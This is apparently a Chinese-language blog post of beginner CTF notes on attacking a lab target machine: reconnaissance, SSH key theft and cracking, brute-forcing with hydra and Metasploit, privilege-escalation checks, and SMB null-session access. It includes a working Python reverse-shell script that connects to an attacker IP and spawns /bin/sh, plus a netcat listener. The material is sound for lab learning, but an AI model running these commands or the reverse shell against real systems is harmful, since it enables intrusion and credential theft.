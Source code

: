 ```yaml
---
title: CTF学习入门：基本知识
copyright: true
tags: ctf
categories: ctf
abbrlink: f3c1f5a8
date: 2019-10-13 19:47:20
---
```

基本知识
<!--more-->
#### 挖掘越权漏洞
确定关键可控参数，坚持参数同变同控原则。
* 水平越权 基于身份id、属性id(地址)
* 垂直越权  

##### 主机和靶机环境搭建
**探测靶场IP**
使用netdiscover -r ip/netmask
例如： netdiscover -r 192.168.253.1/24
**比赛方式**
1. 给予在同一局域网中的攻击机和靶场机器，以web方式可以访问攻击机，通过攻击机来渗透靶场机器，获取
获取对应的flag值。
2. 给予一个网线接口，用户自备工具，直接连接网线，进行渗透靶场机器，获取对应的flag值

> 信息探测：对服务的漏洞探测，然后进行对应的数据包发送，获取机器的最高权限。
nmap -sV ip

> 每一个服务对应计算机的一个端口，用来进行通信。

**探测大端口的信息**
1. http://ip:port/
2. 查看源代码获取对应信息。
3. 对这个服务的隐藏文件进行探测  **dirb http://ip:port/**

> robots.txt 存放不允许搜索探测的文件名和允许探测的文件名

> ssh私钥泄露：如何从外部进入最终主机，获取flag 浏览器输入：ip/.ssh/id_rsa 
有authorized_keys id_rsa 文件，通过authorized_keys查看用户名
1. 下载到本地后 ls -alh 查看权限
2. ssh -i id_rsa simon@ip
3. chmod 600 id_rsa
4. ls -alh
5. ssh -i id_rsa simon@ip
输入密码：

**解密ssh密钥信息**
使用ssh2john 将id_rsa密钥信息转换为john可以识别的信息。
chmod 600 id_rsa
**ssh2john id_rsa > rsacrack** 

利用字典解密rsacrack信息
**zcat /usr/share/wordlists/rockyou.txt.gz| john --pipe --rules rsacrack**

ssh -i id_rsa simon@ip

**分析用户名、利用ssh登录服务器**

查找具有root权限的文件
**find / -perm -4000 2 > /dev/null**

根据代码审计结果，得到flag，以及提升权限
cat read_message.c
* 尝试溢出操作
read_message
pwd
whoami
cat flag.txt

##### ssh 协议
1. Secure Shell 缩写。
2. 建立在应用层基础上的安全协议。
3. 利用SSH协议可以有效防止远程管理过程中的信息泄露问题。
4. 基于TCP 22号端口的服务。
 **SSH协议认证机制**
* 基于口令的安全验证 账号和口令
   基于字典的暴力破解，破解对应用户名和密码。
  
* 基于密钥的安全验证 公钥、私钥
   通过对主机信息收集，获取到泄露的用户名和对应的密钥。
   chmod 600 id_rsa
   ssh -i id_rsa 用户名@主机地址 登陆服务器。


__实验环境:__
攻击机： 192.168.1.105
靶场机： 192.168.1.106

1. 信息探测
    对于给定的靶场机器，对其进行渗透测试，先考虑靶场机器开放的服务

    探测把靶场开放的服务与服务的版本
        nmap -sV 靶场ip
    探测靶场全部信息 
        nmap -A -v 靶场IP
    探测靶场的操作系统类型与版本
        nmap -O 靶场IP
```
nmap -sV 192.168.1.106
nmap -A -v 192.168.1.106
nmap -O 192.168.1.106
```
2. 分析探测结果
对于SSH服务的22端口靶场
首先考虑：
   1. 暴力破解
   2. 私钥泄露(私钥中有没有对应密码，是否可以找到私钥的用户名)
对于开放http服务的80端口或者其他端口的靶场
首先考虑：
   1. 通过浏览器访问对应的靶场http服务，如http://靶场ip地址：http服务端口
   2. 使用探测工具对http的目录进行探测，如dirb http://靶场ip地址：http服务端口

> 特别注意 大于1024的端口

3. 挖掘敏感信息
使用浏览器对靶场Ip的http服务探测，对页面中展示的内容也要注意，尤其是联系人等信息(有可能就是ssh的用户名信息)，
递归访问，力争把每一个dirb扫描到的目录页面都访问查看。

尤其是对robots.txt，挖掘具备利用价值的信息。

对某些靶场，可以使用nikto扫描器来挖掘敏感信息。
> 特别注意config等特殊敏感文件，要细读扫描的结果，挖掘可以利用的信息。
`
nikto -host 靶场IP  192.168.1.106
`

利用敏感、弱点信息
对挖掘的ssh密钥利用
1. 修改id_rsa的权限
chmod 600 id_rsa
2. 利用私钥登录服务器
ssh -i id_rsa 用户名@靶场Ip地址

` wget "http://192.168.1.106/icons/VDSDSF.txt" `

扩大战果权限：
1. 查看当前用户whoami
2. id 查看当前用户权限
3. 查看根目录 寻找flag文件

常用命令
```
cat /etc/passwd 查看所有用户的列表
cat /etc/group 查看用户组
find / -user 用户名   查看属于某些用户的文件
/tmp 查看缓冲文件目录
```

深入挖掘：
通过/etc/crontab 文件，设定系统定期执行的任务，编辑，需要root
权限，不同的用户都可以有不同的定时任务。

cat /etc/crontab 挖掘其他用户是否由定时任务，并查看对应的任务内容。
执行的任务对应靶场机器的某个文件。

如果在/etc/crontab 下有某个用户的定时计划文件，但是具体目录下没有这个
定时执行的文件，可以自行创建反弹shell，然后netcat执行监听获取对应用户的权限。


反弹shell
```
#!/usr/bin/python
import os,subprocess,socket  

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机ip","攻击机监听端口"))0
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

攻击机netcat命令
nc -lpv 未占用端口

查看占用端口
   netstat -pantu


```
   netstat -pantu
   nc -lpv 未占用端口
   

```

深入挖掘：
目标：寻找可以root靶场机器的方式

su -root

查看用户 whoami
查看对应权限 id

切换到/home/用户名 目录查看是否具有可以提升root权限的文件

对ssh服务暴力破解，工具：hydra,medusa等。


利用cupp创建字典
```
git clone https://github.com/jeanphorn/common-password.git
chmod +x cuppy.py
./cuppy.py -i
```


使用metasploit破解SSH
在终端中输入:
```
  msfconsole
    use auxiliary/scanner/ssh/ssh_login
    show options
    set rhosts 192.168.1.106
    set username hadi
    set pass_file /root/Desktop/common-password/hadi.txt
    set verbose true
    run


    set password hadi123
 ```
 优化会话：
 ```
 python -c "import pty;pty.spawn('/bin/bash')"
 su -root
```

### SMB信息泄露
SMB(Server Message Block) 通信协议 主要作为microsoft网络的通讯协议

一般端口使用为139，445

针对SMB协议弱点分析
1. 针对SMB协议，使用空口令，若口令尝试登录，并查看敏感文件，下载查看：
  ```
  smbclient -L ip
  smbclient '\\ip\print$'
  smbclient '\\ip\share$'
  get 敏感文件
  ```
2. 针对SMB协议远程溢出漏洞进行分析
  searchsploit samba版本号

  shodan

  